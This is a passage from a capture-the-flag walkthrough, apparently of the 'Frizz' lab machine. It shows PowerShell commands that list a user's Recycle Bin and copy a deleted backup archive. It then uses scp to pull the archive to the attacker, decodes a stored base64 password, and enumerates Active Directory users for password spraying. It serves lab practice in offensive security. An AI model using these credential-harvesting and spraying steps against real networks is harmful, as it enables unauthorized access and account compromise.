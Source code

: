 Running `winpeas` doesn't produce any useful information. Another thing we should check is the Recycle Bin. We can't access the directory directly using `cd` command, but we can use PowerShell to list the contents of the Recycle Bin. I came across this post [Managing the Recycle Bin with PowerShell](https://jdhitsolutions.com/blog/powershell/7024/managing-the-recycle-bin-with-powershell/) which has information for us to get the contents of the Recycle Bin.

```powershell
PS C:\Users\f.frizzle> $shell = New-Object -com shell.application
PS C:\Users\f.frizzle> $rb = $shell.namespace(10)
PS C:\Users\f.frizzle> $rb.Items()

Application  : System.__ComObject
Parent       : System.__ComObject
Name         : wapt-backup-sunday.7z
Path         : C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z
GetLink      :
GetFolder    :
IsLink       : False
IsFolder     : False
IsFileSystem : True
IsBrowsable  : False
ModifyDate   : 10/24/2024 9:16:29 PM
Size         : 30416987
Type         : 7Z File
```

There's one item in the Recycle Bin of the current user, which is the `wapt-backup-sunday.7z` file. Let's copy it to the `f.frizzle` user's home directory, then download it using `scp`.

```powershell
PS C:\Users\f.frizzle> $path = $item | Select-Object -ExpandProperty Path
PS C:\Users\f.frizzle> Copy-Item -Path $path -Destination out.7z
```

From your host machine :

```bash
scp f.frizzle@frizz.htb:out.7z .
# Extract the archive
7z x out.7z
```

The extracted directory contains many files, but the files inside `conf` directory are always the priority.<br>
The `waptserver.ini` file contains a base64 password. We could use this password to spray the users.

```bash
echo 'wapt_password' | base64 -d
```

## Password Spraying

Grab all the users.

```bash
GetADUsers.py -k -no-pass frizz.htb/ -dc-host frizzdc.frizz.htb -all | awk '{print $1}' | tail -n +6 > users.txt
```

